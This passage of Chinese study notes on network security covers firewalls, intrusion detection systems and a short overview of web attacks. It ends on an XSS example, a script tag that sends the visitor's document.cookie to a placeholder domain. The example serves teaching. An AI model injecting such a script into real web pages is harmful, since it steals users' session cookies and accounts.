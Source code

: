 防火墙的功能有两个：**阻止和允许**。

- “阻止”就是阻止某种类型的通信量通过防火墙（从外部网络到内部网络，或反过来）。
- “允许”的功能与“阻止”恰好相反。

防火墙必须能够识别各种类型的通信量。不过在大多数情况下防火墙的主要功能是“阻止”。

防火墙技术分为一般两类：

**分组过滤路由器**

- 是一种具有分组过滤功能的路由器，它根据过滤规则对进出内部网络的分组执行转发或者丢弃（即过滤）。过滤规则基于分组的网络层或运输层首部的信息，例如：源/目的 IP 地址、源/目的端口、协议类型（TCP 或 UDP）等。
- 分组过滤可以是无状态的，即独立地处理每一个分组。也可以是有状态的，即要跟踪每个连接或会话的通信状态，并根据这些状态信息来决定是否转发分组。
- 简单高效，对用户透明，但不能对高层数据进行过滤。

**应用网关也称为代理服务器 (proxy server)**

- 它在应用层通信中扮演报文中继的角色。
- 每种网络应用需要一个应用网关。
- 在应用网关中，可以实现基于应用层数据的过滤和高层用户鉴别。
- 所有进出网络的应用程序报文都必须通过应用网关。
- 应用网关也有一些缺点：每种应用都需要一个不同的应用网关；在应用层转发和处理报文，处理负担较重；对应用程序不透明，需要在应用程序客户端配置应用网关地址。

##### 2. 入侵检测

防火墙试图在入侵行为发生之前阻止所有可疑的通信。**入侵检测系统 IDS** (Intrusion Detection System) 能够在入侵已经开始，但还没有造成危害或在造成更大危害前，及时检测到入侵，以便尽快阻止入侵，把危害降低到最小。 

IDS 对进入网络的分组执行深度分组检查，当观察到可疑分组时，向网络管理员发出告警或执行阻断操作（由于 IDS 的“误报”率通常较高，多数情况不执行自动阻断）。
IDS 能用于**检测多种网络攻击**，包括网络映射、端口扫描、DoS 攻击、蠕虫和病毒、系统漏洞攻击等。



#### Web 攻击技术

总结一下常见的 Web 攻击方法。

- **XSS攻击**（关键是脚本，利用恶意脚本发起攻击）
- **CSRF攻击**（关键是借助本地 cookie 进行认证，伪造发送请求）
- **SQL注入**（关键是通过用 SQL 语句伪造参数发出攻击）
- **DDOS攻击**（关键是发出大量请求，最后令服务器崩溃）

##### 1. 跨站脚本攻击XSS

###### ① 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。从而达到攻击的目的，如盗取用户的 cookie，改变网页的 DOM 结构，重定向到其他网页等。

其实归根结底，XSS 的攻击方式就是想办法“教唆”**用户的浏览器去执行一些这个网页中原本不存在的前端代码**。

###### ② 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```
